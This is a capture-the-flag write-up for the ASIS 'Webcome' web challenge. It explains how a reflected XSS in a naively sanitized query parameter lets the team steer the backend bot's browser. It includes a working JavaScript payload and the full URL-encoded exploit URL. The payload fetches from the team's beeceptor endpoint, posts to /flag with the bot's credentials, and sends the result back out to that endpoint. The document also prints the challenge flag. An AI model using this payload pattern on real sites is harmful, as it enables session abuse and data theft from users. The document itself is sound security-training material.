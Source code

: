 # Webcome


## Description
Welcome! I made a [website](http://65.21.255.24:5000/).

Download the source code from [here](https://asisctf.com/tasks/welcome_697082013f8f7b6f0ed025f77272fc65082eb3dc.txz).

## Writeup

In this challenge, the goal is to visit `/flag` route with a
secret cookie after solving a captcha. The website also has a `/report` path, which you can make the server visit a website in the backend. Analyzing the code, we encountered some interesting parts in the homepage code:

```javascript
app.get('/',(req,res)=>{
	var msg = req.query.msg
	if(!msg) msg = `Yo you want the flag? solve the captcha and click submit.\\nbtw you can't have the flag if you don't have the secret cookie!`
	msg = msg.toString().toLowerCase().replace(/\'/g,'\\\'').replace('/script','\\/script')
	res.send(indexHtml.replace('$MSG$',msg))
})
```
In case a query parameter exists, after some naive sanitization, it is replaced in place of `$MSG$` in the `index.html` file:
```html
<script>
    msg.innerText = '$MSG$';
</script>
```
So our initial guess is to perform some XSS attack.


### Failed Attempts
1. First, we tried to somehow gain access to the secret cookie, which is set with the following code:
```javascript
await page.setCookie({
		name: 'secret_token',
		value: secretToken,
		domain: challDomain,
		httpOnly: true,
		secret: false,
		sameSite: 'Lax'
	})
```
But the security niceties are well observed, and it seems like it is not possible to get the cookie maliciously.

Especially, `httpOnly` prevents JavaScript from accessing this token, and hence, we cannot use simple `document.cookie` XSS.

1. We encountered this line in the code:
```javascript
app.use(bodyParser.urlencoded({ extended: true }));
```
That simply allows the user to pass advanced formatted queries, which may help bypass some security measurements if not applied cautiously. But we could not get much use of it. (We were thinking of ways to somehow bypass `msg` query sanitizations, or even manipulate the captcha verification process by crafting a special value for `g-recaptcha-response`, which gets passed to the `/flag` path is used to authenticate the solved captcha).

### Solution
Our solution was to craft a specific url that contains a script which makes the backend browser (that has the secret cookie) to visit the `/flag` path and sending the flag to our endpoint API, but first we had to bypass the captcha.

#### Bypassing ReCaptcha
We first tried to reconstruct the captcha on our end by getting its required parameters from the backend server. After some investigation it turned out to be too advanced so we dumped the idea.

Our final workaround was to solve a captcha on our end and capture its `g-recaptcha-response` before reaching the server and send it to our script, hoping it would work, which it turned out to do :))

The script that we used was the following:
```javascript
headers = {method: "GET"};
let data = "g-recaptcha-response=";
fetch(url = `https://larmol.free.beeceptor.com/`, headers = headers).then(async response => {
    let t = await response.text();
    data = data.concat(t);
    headers = {
        method: "POST",
        body: data,
        headers: {"Content-Type": "application/x-www-form-urlencoded"},
        credentials: "include"
    };
    fetch(url = `http://65.21.255.24:5000/flag`, headers).then(async response => {
        headers = {method: "GET"};
        let t = await response.text();
        fetch(url = `https://larmol.free.beeceptor.com/${t}`, headers)
    });
});
```
This script does the following steps:

1. Gets the `g-recaptcha-response` from an endpoint that we created, providing it with our solved captcha.
2. Creates a request containing the `g-recaptcha-response` parameter and sends it to the `/flag` route, obtaining the flag.
3. Sends the flag to our endpoint in the URL (we could have sent it way better, but we were too tired ^__^)

We needed to encode our script in the URL. Our final crafted URL was this:
```
http://65.21.255.24:5000/?msg=%5C';headers=%7Bmethod:%22GET%22%7D;let%20data%20=%20%22g-recaptcha-response=%22;fetch(url=%60https://larmol.free.beeceptor.com/%60,%20headers=headers).then(async%20response%20=%3E%20%7Blet%20t=await%20response.text();data%20=%20data.concat(t);headers%20=%20%7Bmethod:%22POST%22,body:%20data,headers:%20%7B%22Content-Type%22:%20%22application/x-www-form-urlencoded%22%7D,credentials:%20%22include%22%7D;fetch(url=%60http://65.21.255.24:5000/flag%60,%20headers).then(async%20response%20=%3E%20%7Bheaders=%7Bmethod:%22GET%22%7D;let%20t%20=%20await%20response.text();fetch(url=%60https://larmol.free.beeceptor.com/$%7Bt%7D%60,%20headers)%7D);%7D);//
```

We had to add `\\';` and `//` to the beginning and end of our query, respectively, to escape from the naive filtering mentioned and get our script out of the `'$MSG$'` quotes to get it running.

Submitting the URL, we get the flag on our endpoint:
```
ASIS{welcomeeeeee-to-asisctf-and-merry-christmas}
```
